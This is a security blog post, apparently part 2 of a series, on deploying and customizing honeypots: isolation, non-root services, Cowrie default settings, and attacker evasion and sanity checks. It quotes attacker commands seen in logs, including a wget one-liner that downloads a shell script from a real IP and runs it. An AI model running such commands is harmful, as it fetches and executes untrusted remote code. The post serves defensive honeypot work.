 ```yaml
---
layout: post
title:  "Honeypot Deployment and Customization"
date:   2020-11-24 19:00 +0100
tags: malware
---
```

Deploying Honeypots right is not always straightforward and leaves plenty of room for mistakes. Join me for a while to learn about deployment and customization of Honeypots.

<!--more-->

This is part 2 of a series detailing visualization, automation, deployment considerations, and pitfalls of Honeypots ([Part 1]({% post_url 2020-06-19-honeypot-intro %})).  
An extended version of this article and an according talk can be found at [Virus Bulletin 2020](https://vblocalhost.com/conference/presentations/like-bees-to-a-honeypot-a-journey-through-honeypots/).

The first step to data collection, which is also the most important one, is the deployment of Honeypots. There are multiple pitfalls and recommendations to consider depending on the use case. After a successful deployment, the next step is to collect generated data and possible payloads at a single data sink to enable metrics generation and monitoring of the complete infrastructure.

## Deployment Considerations
There are two main scenarios to consider when deploying Honeypots: Internal versus internet facing deployments. Both are valid scenarios but cover different use cases. For the remainder of this paper, we focus on internet-facing deployments for data collection if not further defined.
In an internal deployment, Honeypots can be considered as traps or alert systems. The idea is to deploy them throughout the company infrastructure, preferably near production servers. If an attacker is looking for a foothold in a network, they stumble upon these strategically placed systems and try to use them to persist access. Ideally, these Honeypots have been set up to raise alarms if incoming connections are detected, as there is no legit use for them in daily operations. This scenario can support existing measures like Intrusion Detection Systems or log monitoring as an active component to increase chances of early detection of intruders.  
Internet facing deployments on the other hand are more tailored towards collecting data on widespread attacks. This can range from basic information like attacked services (i.e. how common are attacks versus Android Debug Bridges) or used credentials up to detailed TTP information (i.e. which commands/scripts are executed, attempted lateral movement, persistency techniques and possible evasion attempts). In contrast to internal deployments, these are constantly exposed to world-wide traffic. Therefore, they are always to be considered compromised. As these deployments aim to provide no direct protection to an internal network, it is advisable to isolate internet facing Honeypots completely from production infrastructure. 
![Graphic that shows two sample deplyoments. The left is titled "Internal Deployment", showing the honeypot being placed next to production servers. The right is titled "Internet-facing Deployment" and shows the honeypot deployed in a DMZ, separated from all other infrastructure.](/images/deployment.png)
Besides these specifics, we can also derive some general recommendations for all deployment scenarios.  
As these systems are considered insecure by design, it is advisable to treat them accordingly. Leaving production data or company information on them is inadvisable, as well as reusing usernames, passwords, certificates, and SSH keys. If attackers manage to escape from the Honeypot to the hosting OS, they are otherwise able to gain valuable information about internal infrastructure and active usernames.  
Furthermore, it is strongly advised to run Honeypot services as a non-root user that has minimal permissions and is not able to use sudo. In the case of Honeypot escapes this makes it considerably harder for attackers to escalate privileges. As most emulated services are running in the range of system ports which require elevated privileges, it is prudent to run them on non-system ports and utilize iptables forwarding rules to make them look like they are running on the system port.  
If Honeypots for common services like SSH and FTP are deployed, they should be running on the services’ default port. Especially for SSH as means of access for most systems, it is recommended to disable password authentication and root login for the real SSH server, as well as running it on a non-standard port to free up port 22 for the Honeypot. This also means that the creation of an SSH alias in local configs is recommended to avoid connecting to the SSH Honeypot by accident when conducting maintenance or applying configuration changes.  
Another consideration is the hosting service for the infrastructure. If it is not hosted on company-owned infrastructure, the idea of using a low-end VPS provider is compelling. Unfortunately, these are prone to being shut down in context of [deadpooling scams](https://tech.slashdot.org/story/19/12/08/1549222/20-low-end-vps-providers-suddenly-shutting-down-in-a-deadpooling-scam), so it pays to be prepared to loose these systems at any time. In general, automated deployments based on tools like Ansible or Puppet should be used for reproducible results and lower the risk of misconfigurations. Combined with a backup strategy for collected data, logs, and payloads this ensures resilience to data loss.  
Furthermore, it is recommended to minimize the usage of OS-based resources for the specific requirements of Honeypots. For example, the usage of local virtual environments for Python-based projects should be considered over using system-wide package installations to avoid dependency problems with multiple projects running on the same language or OS updates that break dependencies.  
Regarding operation, it is also advisable to monitor the regular operation of deployed Honeypots including storage utilization, ideally with automated tests tailored to the respective protocol.  
Generally speaking, you’re exposing a system to the world that looks vulnerable - it most likely is vulnerable, but in other ways than you’d think. Honeypot deployments, especially when internet facing, are an asymmetrical playing field with an attacker advantage. They have infinite ways and time to try attacks – the operator needs to conduct one mistake to expose the Honeypot host and possibly the surrounding network to attacks.  
Besides the deployment, there are more things to take into consideration. Attackers constantly try to detect Honeypots – with various techniques and varying success rates. A [talk detailing finding flaws and their implications was held at 32c3](https://media.ccc.de/v/32c3-7277-breaking_honeypots_for_fun_and_profit). In the upcoming section, some commonly encountered detection techniques and possible workarounds are presented. These are merely pointers in the right direction. It is advisable to monitor your Honeypot infrastructure constantly and keep an eye out for disconnects always happening after specific commands or workflows, as these can point to evasion strategies.  

## Custom Configurations
Many Honeypots come with a default set of emulated parameters – including Hostname, service version, and credentials. This is especially common in low and medium interaction Honeypots. In the context of Honeypot configurations, customization is the key to evasion mitigation.  
As an example, the SSH Honeypot *Cowrie* is considered. If the default configuration is not changed, it used to accept the user `Richard` with the password `fout`, afterwards announcing that its system name is `svr04`. Checking for default configurations like these is relatively easy and therefore happens quite a lot.  
As a preventive measure, the footprint of the Honeypot should be as custom as possible. Especially announced hostnames, service versions and banners are low hanging fruit that can be changed. For low and medium interaction Honeypots it can also be a valid strategy to change outputs of emulated commands and create custom filesystem pickles to further make the system unique.

## Finding evasion tactics
As a general recommendation, monitor your Honeypots closely, especially in the early days of deployment, as they are "fresh" and unknown at this point. To stay on the example of Cowrie, it is possible to spot evasion techniques quite easily in the generated logs. In all cases the command workflow on the system is the same up until a specific point where commands either fail or are not executed at all. A commonly observed pattern of actors on the Cowrie SSH Honeypot is to echo the raw script into a file and trying to execute it subsequently.  
```bash
user@pot:~$ /bin/busybox echo -en '\x00\x00\x00\x00\xb4\x03\x00\x00\x1e\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00' >> retrieve
user@pot:~$ ./retrieve
```
This does not work on most low and medium interaction Honeypots, as they disown files created by the connected SSH user as soon as possible. As these files are now non-existent, the workflow of echoing the initial payload into a file and executing said file afterwards does not work on these Honeypots, therefore it can be considered a successful evasion.
Another evasion technique commonly encountered is to download the payload and execute it in a second command. As discussed, this approach leads to a successful evasion, as the file is not available to the user anymore at time of execution.  
```bash
user@pot:~$ cd /; wget http://45.148.10.175/bins.sh; chmod 777 bins.sh; sh bins.sh;
```
There are not many mitigations available to these issues. Due to the very nature of low and medium interaction Honeypots, the most viable mitigation is to switch to a high interaction system. High interaction Honeypots present a complete, persistent environment to an incoming connection that often is cached even through reconnects. This means that all dropped or downloaded payloads are available for execution instead of being snatched away by the Honeypot.

## Sanity Checks
Sanity checks are also encountered quite often. As an initial example an SMTP Honeypot is considered. Attackers will try to connect to a mail server and send a test mail to their own infrastructure to check if the mail server is allowing outbound mail traffic. 
```json
{
  "timestamp": "2020-06-14T08:57:00.854855",
  "src_ip": "0.0.0.0", "src_port": 54282, "eventid": "mailhon.data",
  "envelope_from": "spam@provider.com", "envelope_to": ["spam@provider.com "],
   "envelope_data": "From: spam@provider.com\r\nSubject: 42.42.42.42\r\n
        To: spam@provider.com\r\nDate: Sat, 13 Jun 2020 23:56:59 -0700\r\nX-Priority: 3\r\n"
}
```
A possible mitigation is to allow the first mail from every connection to leave the honeypot. Be advised that this bears legal implications as the system is technically sending out spam.  
Besides the fully-fledged production test there are other sanity checks that can be observed. As a general guideline, deployed Honeypots should expose a configuration and sizing that is similar to their real-world counterparts. This can be archived more easily on low and medium interaction HPs as they often emulate commands by looking up text files which massively eases the spoofing of cluster states, replica configurations or even filesystem sizes. 

## Conclusion
As one can see, there is a lot to consider and check when deploying Honeypots. But don't fret - the work definitely pays off. It is very interesting to watch in realtime what is happening on your systems. But looking at logs isn't that much fun, so join me in the next part for details on sighting and visualizing data!

Continue reading about visualizing all this data in [Part 3]({% post_url 2021-03-05-honeypot-viz %})!
